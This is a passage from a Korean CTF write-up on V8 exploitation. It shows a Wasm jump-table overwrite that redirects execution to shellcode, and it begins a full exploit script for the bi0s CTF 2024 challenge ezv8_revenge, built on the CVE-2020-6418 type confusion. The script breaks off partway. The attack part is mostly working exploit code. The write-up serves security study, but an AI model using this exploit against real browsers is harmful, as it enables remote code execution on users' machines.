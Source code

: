 ```jsx
jump_table_addr2 = wasmInstance2_addr + 0x48n - 1n;

lower_rwx = lower(heap_read64(jump_table_addr));
upper_rwx = upper(heap_read64(jump_table_addr));
console.log("rwx", hex((upper_rwx << 32n) + lower_rwx));
rwx = (upper_rwx << 32n) + lower_rwx

heap_write64(jump_table_addr2, rwx + 0x81an);

f2(1n, 1n);
```

위와 같이 먼저 쉘코드를 담은 Wasm 함수를 실행시켜 쉘코드를 `rwx`권한 메모리에 넣은 후 두번째 `WasmInstance`의 `jump_table_start`가 가리키는 주소를 쉘코드의 주소로 덮어써서 익스플로잇할 수 있습니다.

## 5.bi0s CTF 2024 - ezv8_revenge

bi0s CTF 2024에 출제된 ezv8_revenge 문제의 경우 위에서 설명된 CVE-2020-6418 취약점을 기반으로 한 문제입니다. 또한 위에서 설명한 Wasm Shellcode + `jump_table_start` overwrite기법을 적용할 수 있는 문제입니다.

다음은 Full Exploit 스크립트입니다.

```jsx
ab = new ArrayBuffer(8);
f64 = new Float64Array(ab);
B64 = new BigInt64Array(ab);

function ftoi(f) { // float to int
    f64[0] = f;
    return B64[0];
}
function itof(i) { // int to float
    B64[0] = i;
    return f64[0];
}
function lower(i) { // lower 32 bits of int
    return i & BigInt(0xffffffff);
}
function upper(i) {  // upper 32 bits of int
    return (i >> 32n) & BigInt(0xffffffff);
}
function hex(i) {
    // Return the hex string of a value
    start = "";
    content = i.toString(16);
    return start + "0x" + content;
}

ITERATIONS = 0x1000;

let a = [0.1, , , , , , , , , , , , , , , 0.2, 0.3, 0.4];
let oob_arr = undefined;  // array for OOB
a.pop();
a.pop();
a.pop();
function empty() { }
function f(p) {
    a.push(Reflect.construct(empty, arguments, p) ? 3.2378e-319 : 3.2378e-319); 
    for (let i = 0; i < ITERATIONS; i++) { }
}
let p = new Proxy(Object, {
    get: () => {
        a[1] = {};
        oob_arr = [1.1];
```